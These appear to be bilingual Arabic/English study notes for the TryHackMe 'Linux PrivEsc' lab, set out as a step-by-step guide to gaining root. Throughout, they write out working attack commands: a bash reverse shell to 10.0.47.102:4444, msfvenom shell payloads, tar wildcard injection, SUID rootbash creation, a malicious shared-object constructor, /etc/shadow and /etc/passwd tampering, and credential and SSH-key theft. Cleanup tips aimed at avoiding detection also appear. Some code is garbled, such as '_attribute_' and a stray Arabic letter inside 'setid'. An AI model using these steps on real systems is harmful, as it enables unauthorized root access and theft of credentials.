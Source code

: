 # Linux PrivEsc  

![image](https://github.com/user-attachments/assets/b1fe0a80-97d4-4951-9e6b-885165fc33a5)

[tryhackme_Linux PrivEsc](https://tryhackme.com/room/linuxprivesc?ref=blog.tryhackme.com)


<details>
  <summary>Service Exploits</summary>

## Linux Privilege Escalation via MySQL UDF Exploit

### 🎯 Goal

Gain **root shell access** by exploiting a misconfigured MySQL service (running as root with no password) using a **User Defined Function (UDF)**.

---

### 🔹 Overview

* MySQL is running **as root**.
* The **"root" MySQL user has no password**.
* We'll use a known exploit (`raptor_udf2.c`) to create a MySQL function that executes **system commands as root**.

---

### 🧪 Step-by-Step Instructions

#### 1. 🔧 Go to the exploit directory:

```bash
cd /home/user/tools/mysql-udf
```

#### 2. ⚙️ Compile the UDF exploit code:

```bash
gcc -g -c raptor_udf2.c -fPIC
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```

* This compiles the `.c` code into a shared object `.so` file.
* `-fPIC` and `-shared` are necessary to load it as a library into MySQL.

#### 3. 🛠️ Connect to MySQL as root (no password):

```bash
mysql -u root
```

#### 4. 📦 Create the custom function in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
```

* This loads the `.so` file as a **MySQL plugin**.
* It creates a **new function `do_system()`** that can execute system commands.

#### 5. 🧨 Use the function to gain a root shell:

```sql
select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
```

* Copies `/bin/bash` to `/tmp/rootbash`.
* Sets SUID bit so it runs **with root privileges**.

#### 6. 🚪 Exit MySQL and run root shell:

```bash
exit
/tmp/rootbash -p
```

* `-p` allows bash to run as the **effective UID 0 (root)**.

#### 7. 🧹 Clean Up

```bash
rm /tmp/rootbash
exit
```

* Delete the SUID binary.
* Exit root shell to avoid detection.

---

### ✅ Summary

| Step | Action                                           |
| ---- | ------------------------------------------------ |
| 1    | Compile UDF exploit into `.so` file              |
| 2    | Connect to MySQL (no password)                   |
| 3    | Inject `.so` into MySQL plugin path              |
| 4    | Create and use `do_system()` to copy + SUID bash |
| 5    | Run bash with `-p` for root shell                |
| 6    | Remove `/tmp/rootbash` and exit                  |

🔐 **Always clean up and remove root shells after testing!**

---

🛡️ **Note:** This method only works if:

* MySQL runs as root
* You can connect as root (no password)
* You can write to plugin directory (`/usr/lib/mysql/plugin`)

Used responsibly, this is a great example of **local privilege escalation** via a poorly configured MySQL setup.

  
</details>




<details>
  <summary>Weak File Permissions</summary>

* <details>
    <summary>Readable /etc/shadow</summary>

    ### 1. Readable /etc/shadow (يمكن قراءته)

    * `ls -l /etc/shadow`
        * `-rw-r----- root shadow /etc/shadow` (أي يمكن قرائته)

    * `cat /etc/shadow`
    * (كل اليوزرات بالباسورد تبعها متهاش Hash)

    * **To know type of hash**
        * `john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`
    * (يكسر ال hash و يقولك على نوعه)
    
  </details>

* <details>
  <summary>Writable /etc/shadow</summary>

   ### 2. Writable /etc/shadow (يمكن الكتابة)

   * (لو الملف ده ينفع تكتب فيه هتمسح الباسورد بتاع ال root user أو admin user وتحط مكانه باسورد من عندك)

   * `mkpasswd -m sha-512 newpassword`    (ممكن تعمل باسورد بالامر ده)
      

   * `su root`
    * (ادخل الباسورد الجديد)
    * !!!مبروك
  
  </details>



* <details>
     <summary>Writable /etc/passwd</summary>

    ### 3. Writable /etc/passwd (يمكن الكتابة)

   * `openssl passwd frank`
    * (لعمل باسورد جديد)
       * `$1$aBcDeF$gH...`

   * `nano /etc/passwd`
       * `root:x:0:0:root:/root:/bin/bash` (remove `x`)
       * Becomes -> `root::0:0:root:/root:/bin/bash` (الباسورد الان فاضي)
       * `root:$1$aBcDeF$gH...:0:0:root:/root:/bin/bash` ( اكتب الباسورد اللى انت عملته مكان ال `x`)

   * `su root`
    * (اكتب الباسورد الجديد و مبروك عليك!!!)


  </details>




  
</details>



<details>
  <summary>Sudo</summary>


* <details>
     <summary>Shell Escape Sequences</summary>

    * `sudo -l`
    * (عرض الأوامر التي يمكن تشغيلها باستخدام Sudo بدون الحاجه لادخال كلمه مرور)
  

    * **`gtfobins.github.io`**
    * (البحث في gtfobins عن أوامر قابلة للاستغلال)

     
  </details>


* <details>
     <summary>Environment Variables</summary>

   * **Environment Variables:** `(LD_LIBRARY_PATH - LD_PRELOAD)`
    * (يمكن نستغل الـ Environment variables دي)
    * **شرح بسيط:** (عشان أي برنامج يعمل لابد يحتاج الى تحميل مكتبات مشتركه لتنفيذ وظائف معينه أماكن هذه المكتبات `Lib` أو `/usr/lib`)
    * (هذه المتغيرات تتحكم في كيف وأين يبحث البرنامج عن مكتبات نقدر نستغلها علشان نوصل بيها للـ root)


    >[!warning] ⚠️⚠️
    >
    > لو عملنا مكتبه تحتوى على كود خبيث (مثلا كود بيفتح `root shell`)
    >
    > وجعلنا **_`LD_PRELOAD`_** يشير اليها فان :
    >
    > اى برنامج يتم تشغيله بصلاحيات ال ``SUDO`` هيقوم اولا بتحميل المكتبه الخبيثه التى انشاناها مم يعطيك صلاحيات ``ROOT``



   This method works if `LD_LIBRARY_PATH` is inherited. It tells a program to look for shared libraries in a specified directory first, allowing you to hijack a library call.

   1.  **Find a target library:**
       * Use `ldd` to see which shared libraries a program uses.

       ```bash
       ldd /usr/sbin/apache2
       ```

   2.  **Create a malicious shared object:**
       * Compile the C code from `/home/user/tools/sudo/library_path.c`.
       * **Crucially, name the output file the same as one of the libraries used by the target program** (e.g., `libcrypt.so.1`).

       ```bash
       gcc -o /tmp/libcrypt.so.1 -shared -fPIC /home/user/tools/sudo/library_path.c
       ```

    3.  **Run the program with `LD_LIBRARY_PATH`:**
        * Execute the program using sudo, setting `LD_LIBRARY_PATH` to the directory containing your malicious library (`/tmp`).

        ```bash
        sudo LD_LIBRARY_PATH=/tmp apache2
        ```
  
    * This should also spawn a root shell because the program loads your malicious `libcrypt.so.1` instead of the real one.

   #### **Further thought / exercise:**

   * Try renaming `/tmp/libcrypt.so.1` to the name of another library used by `apache2` and re-run the exploit. Does it still work? If not, why? How would the        `library_path.c` code need to be changed to make it work with a different library?



  </details>

  
</details>


 



<details>
  <summary>Cron Jobs</summary>


* <details>
     <summary>File Permissions</summary>


    # Cron Jobs - File Permissions (Crontab)

   ### 5) Cron Jobs - File Permissions

   * **Cron Job** هو مهمه مجدوله مع تشغيلها تلقائيا في أوقات محدده
    * الملف اللي فيه المهام المجدوله -> `/etc/crontab`

   ---

   **ex:**

   * `cat /etc/crontab`
    * وجدنا أن الملف ده -> `overwrite.sh`
    * الآن نريد تحديد مكانه

   * `locate overwrite.sh`
       * `/usr/local/bin/overwrite.sh`
    * لاقيناه وهنلاحظ انه قابل للتعديل


   * `nano /usr/local/bin/overwrite.sh`
       * `#!/bin/bash`
       * `bash -i >& /dev/tcp/10.0.47.102/4444 0>&1` the ip of ``tun0``
   
    * هنستبدل محتوى الملف بالكود ده
    * الكود ده بيخلى جهاز الضحيه يتصل بنا عن طريق ``NetCat`` على منفذ ``4444``
    * وبعدين نحفظ الملف ونتاكد انه قابل للتنفيذ ``chmod +x``
  

   * `nc -nvlp 4444`
    * ( الآن بنقوم بالإستماع على ال port 4444 )

   * بمجرد ما الملف يخلص شغله هتكون راجعلنا بالجهاز
   * بصلاحية Root عن طريق -> **Reverse Shell**

   * `whoami` 
       * `root`
    * مبروك

     
   </details>



* <details>
     <summary>PATH Environment Variable</summary>


   # Cron Jobs - PATH Environment Variable

   (overwrite.sh لو مينفعش تكتب جواه)

   ### 6) Cron Jobs - PATH Environment variable

   * هنا بنستغل اعدادات الـ PATH الخاصة بالـ Cron Jobs للوصول على صلاحيات الـ `root`

   * `cat /etc/crontab`
       * `PATH=/home/user:/usr/local/sbin:/...`
       * هنا في مشكله هو بيبحث عن الملفات المجدوله زى overwrite.sh
       * لكن بيبدأ البحث في `/home/user` والملف الاصى موجود فى `/usr/local/bin`
       * ده معناه إن لو عملنا ملف بنفس الاسم
       * في `/home/user` وكتبنا فيه كود خبيث يخلينا نحصل صلاحيات `root`

   * `nano /home/user/overwrite.sh`
       * `#!/bin/bash`
       * `cp /bin/bash /tmp/rootbash`
       * `chmod +s /tmp/rootbash`
       * الكود ده بينقل ال ``bash`` ل ``/tmp/rootbash`` وده ملف احنا عملناهو بعد كده يديلو صلاحيات ``SUID``
       * اى ان المستخدم يمكنه تشغيل ``BASH`` بصلاحيات ``root``
    

   * `chmod +x /home/user/overwrite.sh`
       * نخلي الملف قابل للتنفيذ
       * الآن عند تشغيل الـ cron الملف هيتنفذ ما يؤدي الى
       * إنشاء `rootbash` في `/tmp/`

   * `/tmp/rootbash -p`
       * الأمر ده هيخلي `bash` يحتفظ بصلاحيات ال `root`
       * من بعد تشغيله من قبل مستخدم عادي

   * `whoami`
       * `root`


   > ### ليه استخدمنا ``/tmp`` لتخزين الملف
   >
   - > عشان ده مجلد عام يمكن لاى مستخدم يكتب فيه لذا يمكنك انشاء ملفات بدون صلاحيات
   - > معظم الانظمه تمسح الملفات داخل ``/tmp`` تلقائيا عند اعاده التشغيل مما يساعد فى اخفاء الادله بعد الهجوم

     
   </details>



* <details>
     <summary>Wildcards</summary>

   # Cron Jobs - Wildcards

   (مثلا الملف المجدول ده هي `compress.sh`)
   (`` * `` بتنفذ الاوامر على كل الملفات)

   ### 7) Cron Jobs - WildCards

   * استغلال `tar` الذي يعمل داخل المهمة المجدولة للوصول لصلاحيات `root`. وبما ان الأمر `tar` يتم تشغيله باستخدام `*` فسوف نضيف ملفات أسماءها شبيهه لأوامر `tar` ما يمكننا من عمل Reverse Shell والتحكم بالجهاز.

   * `cat /usr/local/bin/compress.sh`
       * `cd /home/user`
       * `tar czf /tmp/backup.tar.gz *` -> (هينفذ كل الاوامر اللي هنا و يوديها ``/tmp``)

   * `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.0.47.102 LPORT=4444 -f elf -o shell.elf`
       * (على جهازنا، نعمل `shell` عن طريق `msfvenom` باستخدام `shell` لـ linux)

   * `scp shell.elf user@10.10.242.228:/home/user`
       * (بنقوم بنقل الملف لجهاز الضحية)

   * `chmod +x /home/user/shell.elf`
       * (نجعل الملف قابل للتنفيذ)

   * `touch /home/user/--checkpoint=1`
   * `touch /home/user/--checkpoint-action=exec=./shell.elf`

   * `nc -nvlp 4444`
       * (والاستماع على `port 4444` من أجل الحصول على `shell`)

   * `whoami` or `id`
       * `root`



   > ### لماذا ``tar`` كان قابل للاستغلال ؟
   >
   > لان ``tar`` يرى ملفات تحمل اسماء مشابهه لخيارات سطر الاوامر ``--checkpoint=1`` يعتبرها كانها
   > خيارات فعليه او اوامر وليست مجرد اسماء ملفات
   >
   > ### هل يمكن تنفيذ نفس الاستغلال على برامج اخرى ؟
   >
   > نعم مثل :
   >
   > rsync , find , cp , mv , gzip , sort , grep , awk
   >
   > ستجد استغلالهم على gtfobins.io 


     
</details>
  
</details>





<details>
  <summary>SUID / SGID Executables</summary>

* <details>
     <summary>Known Exploits</summary>

   # SUID/SGID Executables - Known Exploits

   ### 8) SUID/SGID Executables - known exploits

   * استغلال البرامج التي تعمل بصلاحيات SUID أو SGID للحصول على صلاحيات الـ `root`.

   * `find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null`
       * البحث عن ملفات تحمل صلاحيات SUID أو SGID.
       * Example found: `/usr/sbin/exim-4.84-3`

   * search on ``exploitDB`` about **_exim-4.84-3_**
       * on this room Found exploit code at: `/home/user/tools/suid/exim/cve.sh`
       * (هنا في كود الاستغلال اللي وجدناه لبرنامج exim)

   * `chmod +x /home/user/tools/suid/exim/cve.sh`

   * `whoami`
       * `root`
       * (مبروك)


  </details>


* <details>
     <summary>Shared Object Injection</summary>


   # SUID/SGID Executables - Shared Object Injection

   ### 9) SUID/SGID executables - Shared object injection

   * هنا ضمن الملفات التي وجدناها تحمل صلاحيات SUID SGID وجدنا الملف: `/usr/local/bin/suid-so`
   * عند محاولة تشغيله يقوم بالتحميل ولكن لا نعرف ماذا يحدث.

   * `strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"`
       * عرض العمليات التي يقوم بها الملف من قبل `strace` لفلترة العمليات التى تخص 
       * فتح ملفات او محاولات البحث عن ملفات غير موجوده
       * Example output showing a missing library: `/home/user/.config/libcalc.so`
       * (وجدنا أن الملف يحاول تحميل مكتبه مشفره ولكنه لا يجدها)

   * `mkdir /home/user/.config`
       * (المجلد الذى به الملف)

   * Create the malicious library file (`libcalc.c`):
       * (قم بعمل هذا الملف فى اى مسار على النظام)
       ```c
       #include <stdio.h>
       #include <stdlib.h>

       void _attribute_((constructor)) init() {
           setid(0);
           setلid(0);
           system("/bin/bash");
       }
       ```

   * `gcc -shared -fPIC -o /home/user/.config/libcalc.so ~/path/to/your/libcalc.c`
       * (تم تحويل الكود من الملف إلى مكتبه مشتركه وإرساله الى المسار المراد)

   * `/usr/local/bin/suid-so`
       * (تشغيل الملف مرة أخرى ولكن هذه المرة سوف يجد المكتبة المحقونة وتكون خبيثة)

   * `whoami`
       * `root`
       * (مبروك يا باشا)


  </details>


* <details>
     <summary>Environment Variables</summary>


   # SUID/SGID Executable - Environment Variables

   ### 10) SUID/SGID executable - Environment variables

   * ضمن الملفات التي وجدناها تحمل صلاحيات SUID/SGID وجدنا الملف: `/usr/local/bin/suid-env`
   * عند تشغيل الملف هنلاحظ إنه سيحاول تشغيل Apache2 بس من غير ما يتحددله مسار كامل لتشغيل هذه الخدمة
   * بـ `service apache2 start` (مسار غير كامل).
     * ده مثال للمسار الكامل ``/usr/sbin/servic apache2 atart``

   * `strings /usr/local/bin/suid-env`
       * This shows the program calls `service apache2 start`.

   * `gcc -o service /home/user/tools/service.c`
       * هنعمل ملف باسم `service` فيه كود خبيث مثل الأكواد الخبيثة السابقة ونستخدم `gcc` لإنشاء ملف تنفيذي.

   * `export PATH=.:$PATH/usr/local/bin/suid-env`
       * ولابد أن يبحث النظام في المسار الحالي (`.`) قبل المسارات الأخرى.
          * المسار الحالى ``/home/user``

   * Now run the SUID executable: `/usr/local/bin/suid-env`
       * It will execute your malicious `./service` file instead of the system's `service` command.

   * `whoami`
       * `root`



  </details>


* <details>
     <summary>Abusing Shell Features (#1)</summary>


   # SUID/SGID Abusing - ShellShock Partners #1

   ### 11) SUID/SGID Abusing - ShellShock Partners #1

   * استغلال ثغرة في إصدارات `Bash` قبل الـ `4.2-048` تكمن باسم `ShellShock Function import`. والتي تسمح للمهاجم بتعريف دالة `Bash` تحمل نفس اسم مسار، تنفيذ برنامج معين
   * ثم تصديرها بحيث تستخدم بدلا من البرنامج الاصلى عند استدعائه.
   * في الملف `/usr/local/bin/suid-env2` له نفس صلاحيات `suid/sgid` مثل الملف السابق لكن الفرق أنه بيشغل المسار كامل.

   * `/bin/bash --version`
       * Output might be something like `4.1.5` -> (إصدار Bash قديم)

   * Define a function with the same name as the command path:
       ```bash
       function /usr/sbin/service { /bin/bash -p; }
       ```

   * Export the function:
       ```bash
       export -f /usr/sbin/service
       ```
       * (هذا الكود سيقوم بتعريف دالة في `bash` تحمل اسم `/usr/sbin/service` و عند تشغيلها . تقوم بفتح `Bash Shell` بصلاحيات محفوظه (`-p`)
       * ثم تصدير الداله مما يجعلها تستخدم بدلا من استخدام ``/usr/sbin/service`` عند استدعاؤها)

   * Run the SUID executable:
       ```bash
       /usr/local/bin/suid-env-2
       ```
       * (تشغيل الملف الذي سيستدعي `service` الذي تم حقنه ليشغل `Bash Shell` ويأخذنا إلى صلاحيات `root`)

   * `whoami`
       * `root`
       * (مبروك!!!)



  </details>


* <details>
     <summary>Abusing Shell Features (#2)</summary>


   # SUID/SGID Executable - Abusing Shell #2

   ### 12) SUID/SGID executable - Abusing Shell #2

   * إستغلال أيضاً إصدارات `Bash` القديمة ولكن لتمكين وضع ال  `Debugging`.
   * و الاستفادة من متغير `PS4` لحقن أمر خبيث يمكن المستخدم من ترقية صلاحياته والحصول على `Root Shell`.

   * Run the SUID executable with custom environment variables:
       ```bash
       env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
       ```
       * (إنشاء نسخة من `Bash` بصلاحيات `Root` ما سيسمح للمهاجم بالحصول على `Root Shell`)

   * Execute the newly created SUID shell:
       ```bash
       /tmp/rootbash -p
       ```
       * (تشغيل الملف الذي أنشأناه بصلاحيات `Root` الذي يحافظ على الصلاحيات `p-`)



  </details>



  
</details>







<details>
  <summary>Passwords & Keys</summary>


* <details>
     <summary>History Files</summary>

   # Passwords & Key - History Files

   ### 13) Passwords & key - history files

   * ممكن يكون المستخدم قد كتب الباسورد بالخطأ وسط أوامر بدلاً من نافذة إدخال كلمة السر.

   * Check the user's history file for credentials:
       ```bash
       cat ~/.history | less
       ```

   * Example of a password found in the history:
       ```bash
       mysql -h somehost.local -u root -pPassword123
       ```

  </details>

* <details>
     <summary>Config Files</summary>

    # Passwords & Keys - Config Files

    ### 14) Passwords & keys - Config files

    * إستغلال وإعدادات الـ `Config files` التي تحتوي على ملفات حساسة.

    * Check a configuration file:
        ```bash
        cat /home/user/.myvpn.oven
        ```
        * The output might reference another file containing credentials: `auth-user-pass /etc/openvpn/auth.txt`
        * (وجدنا هذا المسار)

    * Read the file containing the credentials:
        ```bash
        cat /etc/openvpn/auth.txt
        ```
        * The output could be the username and password:
        ```
        root
        Password123
        ```
        * (مبروك عليك اليوزر والباسورد)

  </details>

* <details>
     <summary>SSH Keyss</summary>

   # Passwords & Keys - SSH Keys

   ### 15) Passwords & keys - SSH keys

   * `ls -la`
       * We found the `.ssh` directory.

   * `ls -l .ssh`
       * Inside, we find a private key, for example: `root_key`
       * (وجدنا الـ private key الخاص بالـ `root`. سنقوم بنقله على جهازنا الـ `kali` الخاص بنا داخل ملف `root-key`)

   * `chmod 600 root_key`
       * (هذا لجعل المفتاح مقروء فقط من قبل المستخدم الحالي مما يمنع `ssh` رفضه)

   * `ssh -i root_key root@10.10.19.152`
       * This logs you in as root.
       * `root#`
       * (مبروك عليك)


  </details>
  
</details>




<details>
  <summary>NFS</summary>


# NFS (Network File System)

### 16) NFS

* عند مشاركه ملف عبر NFS، يمكن للمستخدمين عن بعد إنشاء ملفات على النظام المستضيف وعادة ما يتم تشغيل `root_squashing` لمنح الشخص `root`. يمن امتلاك الملفات على النظام المضيف لكن هنا تم تعطيل هذه الميزه ``هذا الlab``

#### On the Server Machine

* Check the NFS share configuration:
    ```bash
    cat /etc/exports
    ```
    * Look for `no_root_squash` in the output, output for example: `/tmp *(rw,no_root_squashing)`

#### On the Client (Attacker) Machine

1.  **Mount the share:**  ``على جهازى``
    ```bash
    sudo su     
    mkdir /tmp/nfs
    mount -o rw,vers=3 <server_ip>:/tmp /tmp/nfs  #عنوان الماششين او ال lab
    ```
    * يتم ربط ``/tmp/nfs`` فى kali بمجلد ``/tmp`` على الخام او الماشيين 
    * أي ملف يتم إنشاؤه في `/tmp/nfs` على `kali` سيظهر مباشرة في `/tmp` على الخادم.
    *  وبما أن `no_root_squash` مفعل فإن أي ملف ينشئه `root` على `kali` سيحمل ملكية `root` على الخادم (machine)
    *  

1.  **Create a malicious payload:** ``on my device``
    ```bash
    msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
    ```
    * (إنشاء ملف خبيث ووضعه داخل `/tmp/nfs` والذي سيمكننا من عمل `shell` الذي سيعطينا صلاحيات `root` على الخادم)

2.  **Make the payload SUID and executable:** ``on my device``
    ```bash
    chmod +xs /tmp/nfs/shell.elf
    ```
    * (إعطاء الملف الصلاحية اللازمة ليكون `SUID` وجعله قابل للتنفيذ)

#### On the Server Machine

* **Execute the payload:** ``on server``
    ```bash
    /tmp/shell.elf
    ```
    * (تشغيل الملف الخبيث على الخادم)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)



> ## ما هو NFS (Network File System) ؟
>
- >  هو بروتوكول يسمح بمشاركه الملفات بين الاجهزه على الشبكه
- > يسمح يسمح للمستخدمسن بتركيب ``(mount)`` مجلدات من جهاز الى اخر كما لو كانت عليه

  # ``المشكله`` 
- > ال ``(root shquashing)`` هى ميزه امان فى ``NFS`` تمنح المستخدم ``ROOT`` على جهاز العميل من ان يكون ``ROOT`` على الخادم
- > عندما تكون هذه الميزه معطله  ``(no_root_squashing)`` فان ``ROOT`` على جهاز العميل يصبح ``ROOT`` على جهاز الخادم مما يسمح بعمل ``PRIVESC``
 
  
</details>





<details>
  <summary>Kernel Exploits</summary>


# Kernel Exploits - Dirty Cow

(Copy-on-write)

### 17) Kernal Exploits - (Dirty Cow)

* اختراق النظام عن طريق استغلال ل ثغره فى ``kernal`` وتحديدا ثغره ``dirty cow`` اللى هى ثغره تصعيد صلاحيات فى ``linux``

* Find potential exploits:
    ```bash
    perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl
    ```
 
   * ده اسكربت مكتوب بلغه ``perl`` بيفحص النظام ويعرض قائمه بالثغرات الموجوده فى ال ``kernal`` بحيث تختار واحده منها وتستغلها

* **Exploit Details:**
    * **Vulnerability:** Dirty Cow
    * **CVE:** CVE-2016-5195
    * **Source:** `http://exploit-db.com/exploits/45697`

* **The exploit code**
    * ``/home/user/tools/kernel-exploits/dirtycow/c0w.c``
       * ده كود بيستغل هذه الثغره موجود عندنا على الماشيين بس فى الحياه الواقعيه هتكتبه او تجيبه جاهز
       * المهم ``cow`` هو ميكانزم او اليه بيستخدمها ال ``kernal`` لحمايه البيانات فى الذاكره
       * الكود ده بيستبدل ``/usr/bin/passwd`` المسؤول عن تغيير كلمات المرور بملف ``shell`` يمنح صلاحيات ``root`` و بيعمل نسخه احتياطيه ل ``/usr/bin/passwd``
       * فى ``/tm/bak`` عشان يرجعله بعد الاستغلال
         

* **Compile the exploit:**
    * `gcc -pthread /tools/kernal-exploit/DirtyCow/cow.c -o cow`
       * تحويل الكود لملف تنفيذى لاستخدامه لتنفيذ الثغره 
    

* **Run the exploit:**
    ```bash
    ./cow
    ```

    * تشغيل الملف.
    * الان قام باستبدال ``/usr/bin/passwd`` بملف ``shell``

* **Trigger the payload:**
    ```bash
    /usr/bin/passwd
    ```
    * (تشغيل الملف الآن بعدما استبدل `shell` بملف `/usr/bin/passwd`)

* **Check your identity:**
    ```bash
    whoami
    ```
    * `root`
    * (مبروك)

  
</details>




---

> [!important]
> ### privesc-scripts


* Linpeas.sh
* LinEnum.sh
* Lse.sh

---

### send ``scripts`` to server:

on folder that have ``Linpeas.sh``:

```
python3 -m http.server 8888
```

on server:

```
wget http://<tun0_IP>:8888/Linpeas.sh
```

















